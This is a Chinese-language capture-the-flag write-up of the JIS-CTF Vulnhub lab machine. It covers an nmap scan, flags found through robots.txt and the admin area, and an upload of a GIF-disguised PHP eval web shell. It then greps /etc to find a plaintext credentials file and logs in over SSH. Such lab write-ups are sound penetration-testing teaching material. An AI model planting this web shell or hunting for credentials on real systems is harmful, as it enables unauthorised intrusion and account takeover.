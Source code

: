 ```yaml
---
layout: post
title: JIS-CTF
subtitle: JIS-CTF
date: 2025-07-07 16:25
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```


## 环境搭建

[Vulnhub JIS-CTF靶机详解_ctf靶机如何使用-CSDN博客](https://blog.csdn.net/muyuchen110/article/details/141194080)
## 信息搜集

![Pasted%20image%2020250707170751.png](https://img.ghostliner.top/wqFpa0.png)

**发现主机：192.168.163.133**
```shell
nmap -T4 -A -p- 192.168.163.133
```
![Pasted%20image%2020250707170908.png](https://img.ghostliner.top/UVd7lU.png)

扫描站点发现`robots.txt`
![Pasted%20image%2020250707171104.png](https://img.ghostliner.top/G72JfN.png)
## 渗透测试

访问flag目录获取到flag1
![Pasted%20image%2020250707171227.png](https://img.ghostliner.top/ntcdCN.png)

访问admin_area，获取到flag2和admin密码
![Pasted%20image%2020250707180402.png](https://img.ghostliner.top/ii5xyJ.png)

登录成功，发现文件上传，尝试上传木马
![image.png](https://img.ghostliner.top/s1I617.png)

```php
GIF89a
<?php eval($_POST['code']);?>
```

上传成功，访问`/uploaded_files/shell.php`成功，蚁剑连接。
发现flag.txt为空，发现hint.txt，获取到flag3
![image.png](https://img.ghostliner.top/X0AV5L.png)

根据提示，发现flag.txt所属用户`technawi`
![image.png](https://img.ghostliner.top/GJ4LGS.png)

找到该用户家目录，未发现
![image.png](https://img.ghostliner.top/qX3FEC.png)

```shell
find / -type f -name "*technawi*" 2>/dev/null # 未发现
grep -r technawi /etc/* 2>/dev/null
```

![image.png](https://img.ghostliner.top/mYqrAr.png)

查看`/etc/mysql/conf.d/credentials.txt`,`technawi`,`3vilH@ksor`
![image.png](https://img.ghostliner.top/MV0Zgb.png)

ssh登录，查看`flag.txt`
![image.png](https://img.ghostliner.top/bkUWqU.png)
